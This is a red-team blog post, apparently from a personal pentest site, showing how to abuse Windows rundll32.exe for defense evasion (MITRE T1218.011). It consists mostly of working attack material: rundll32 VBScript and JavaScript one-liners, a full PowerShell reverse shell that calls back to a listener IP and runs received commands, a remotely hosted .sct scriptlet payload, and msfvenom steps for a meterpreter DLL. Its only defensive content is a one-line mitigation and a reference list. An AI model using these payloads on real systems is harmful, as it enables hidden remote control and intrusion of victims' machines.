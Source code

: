 ```yaml
---
title: RUNDLL32
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, rundll32]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.011`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# RUNDLL32
***rundll32.exe*** Is a windows utility that Loads and runs 32-bit dynamic-link libraries (DLLs).Adversaries may abuse rundll32.exe to proxy execution of malicious code.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("calc.exe"),0)

```
*invoking calculator*
![vbscalc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllcalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file [path/to/your/file.ps1]"":"),0)`

*Executing rev.ps1 to get a reverse shell*
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file rev.ps1"":"),0)

```
![vbsrevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/)rundllvbsrevwin.png)

***Getting reversh shell***
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```
Command

> `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:[file_url]").Exec();`

*executing rundll32 to get reverse shell*
```bash
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://10.42.0.1/exploit.sct").Exec();

```

![rundll32win](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundlljsrevwin.png)

*getting reversh shell*

![rundll32](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

## Metasploit 

### Generating .dll Exploit With Msfvenom

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f hta-psh -o [file_name.hta]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 -f dll -o exploit.dll
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 8704 bytes
Saved as: exploit.dll

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
exploit.dll

```

### Getting Meterpreter Shell

*executing rundll32*

command

> `rundll32 shell32.dll,Control_RunDLL [dll_file_path]`

```batch
rundll32 shell32.dll,Control_RunDLL C:\Users\IEUser\Desktop\exploit.dll
```
![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmetawin.png)

*setting metasploit listener, getting reverse shell*

![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

# Mitigations

- Use capabilities to detect and block conditions that may lead to or be indicative of a software exploit occurring

# References

- [https://atomicredteam.io/defense-evasion/T1218.011/](https://atomicredteam.io/defense-evasion/T1218.011/)
- [https://attack.mitre.org/techniques/T1218/011/](https://attack.mitre.org/techniques/T1218/011/)
- [https://attack.mitre.org/mitigations/M1050/](https://attack.mitre.org/mitigations/M1050/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32)


